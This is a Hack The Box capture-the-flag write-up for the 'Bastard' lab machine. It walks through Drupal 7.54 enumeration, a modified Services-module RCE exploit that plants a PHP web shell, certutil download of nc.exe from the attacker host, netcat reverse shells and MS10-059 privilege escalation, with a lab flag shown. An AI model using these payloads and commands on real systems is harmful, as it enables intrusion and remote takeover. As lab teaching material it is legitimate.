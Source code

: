 ```yaml
---
layout: single
title: "Bastard"
categories: htb
classes: wide
---
```


## Enumeration

First we do the nmap scan:
```bash
nmap -v -sV -sC -T5 -oN nmap.txt 10.10.10.9
......
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

We see 3 ports are open. Only interesting port is 80 which is running drupal cms. 

We need to find the cms correct and exact version to search for known vulnerability. Let's go to ```10.10.10.9/CHANGELOG.txt``` and we see something like:
```
Drupal 7.54, 2017-02-01
```


## Searching For Vulnerablity
I used searchsploit command in kali to search the vulnerability:
![Bastard Vulnerability](./bastard1.png)

The working exploit is:
```bash
exploits/php/webapps/41564.php
```
I simply edited two lines of this exploit:
```php
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
to

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
But the exploit failed!

I was not that familiar with this vulnerability. Found another article about this vulnerability is <https://www.ambionics.io/blog/drupal-services-module-rce>. I did some more Google search, and found i need to make another post request before working this exploit:

```html
POST /rest HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
```
After this request with burp suite, the server replied:
```html
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Type: text/html
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Powered-By: ASP.NET
Date: Sat, 09 May 2020 18:39:15 GMT
Connection: close
Content-Length: 62

Services Endpoint "rest_endpoint" has been setup successfully.
```

## Working Exploit
I had to fix some lines in the exploit and modify the ```$endpoint_path```
Exploit final modification was(For some troublshooting i used burpsuite here):

```php
$url = 'http://127.0.0.1:8081';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'backdoor.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
];
```

And 
```bash
root@kali:/opt/htb1/basterd# php *.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://127.0.0.1:8081/backdoor.php
```

### Reverse Shell

I have uploaded nc.exe and :
```bat
http://10.10.10.9/backdoor.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe nc.exe
http://10.10.10.9/backdoor.php?cmd=nc -e cmd.exe ip port
```

I quickly got shell in my kali machine. I save the output of ```systeminfo``` command and use [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) python script:
```bash
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --systeminfo sysfo.txt -d *.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
I exploited [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) for privilege escalation as follows:

```bash
nc -lvp 444
listening on [any] 444 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.9] 51514
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>Chimichurri.exe 10.10.14.14 333    
Chimichurri.exe 10.10.14.14 333

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\inetpub\drupal-7.54>
C:\inetpub\drupal-7.54>
```

In another terminal nc was waiting for the connection on port 333. In few seconds i got shell:

```bash
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of c:\Users\Administrator\Desktop

19/03/2017  08:33     <DIR>          .
19/03/2017  08:33     <DIR>          ..
19/03/2017  08:34                 32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.801.559.552 bytes free

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c
c:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

c:\Users\Administrator\Desktop>
```